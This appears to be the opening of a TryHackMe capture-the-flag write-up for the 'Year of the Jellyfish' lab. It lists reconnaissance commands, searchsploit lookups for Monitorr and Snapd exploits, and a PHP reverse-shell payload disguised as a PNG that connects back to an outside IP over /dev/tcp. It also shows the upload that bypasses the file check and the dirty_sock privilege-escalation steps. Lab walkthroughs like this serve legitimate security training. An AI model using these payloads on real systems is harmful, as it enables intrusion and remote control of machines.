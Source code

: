 # TryHackMe-Year of The Jellyfish

**Scope:**

- Snapd Service
- Advanced Package Tool (APT)
- Dirty Sock
- Monitorr

**Keywords:**

- Monitorr Vulnerability
- Script Modify
- Reverse Shell Methods
- System Exploit Enumeration
- Snapd Service Exploit
- Linux Exploit Suggester Script
- dirty_sock Script

**Main Commands:**

- `nmap -sS -sV -sC -T4 -A -O -oN nmap_result.txt -p- -Pn --min-rate=300 --max-retries=3 $target_ip`
- `nmap -sV -sC -Pn -A -T4 -oN nmap_result.txt $target_ip -p-`
- `curl -ikLX GET https://robyns-petshop.thm`
- `curl -ikLX GET https://monitorr.robyns-petshop.thm`
- `gobuster dir -u https://monitorr.robyns-petshop.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k -e -b 404,500,501,502,503 -t 50 -x html,php,txt`
- `wfuzz -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404,403,500,501,502,503 -c -t 50 https://monitorr.robyns-petshop.thm/FUZZ`
- `searchsploit Monitorr 1.7.6m`
- `searchsploit -m php/webapps/48981.py && searchsploit -m php/webapps/48980.py`
- `python monitorrexploit.py https://monitorr.robyns-petshop.thm 10.2.37.37 443`
- `echo -e $'\\x89\\x50\\x4e\\x47\\x0d\\x0a\\x1a\\n<?php echo system(\'bash -c "bash -i >& /dev/tcp/10.8.24.219/443 0>&1"\');?>' > shell.png.pHp`
- `curl -k -F "fileToUpload=@./shell.png.pHp" 'https://monitorr.robyns-petshop.thm/assets/php/upload.php' -H "Cookie: isHuman=1"`
- `searchsploit Snapd 2.32`

**System Commands:**

- `dpkg --print-architecture`
- `find / -type f -perm /4000 2>/dev/null`
- `apt list --upgradeable`
- `python3 -c 'import pty; pty.spawn("/bin/bash")'`
- `export TERM=xterm`
- `su dirty_sock`

### Laboratory Environment

[Year of the Jellyfish](https://tryhackme.com/r/room/yearofthejellyfish)

### Penetration Approaches and Commands
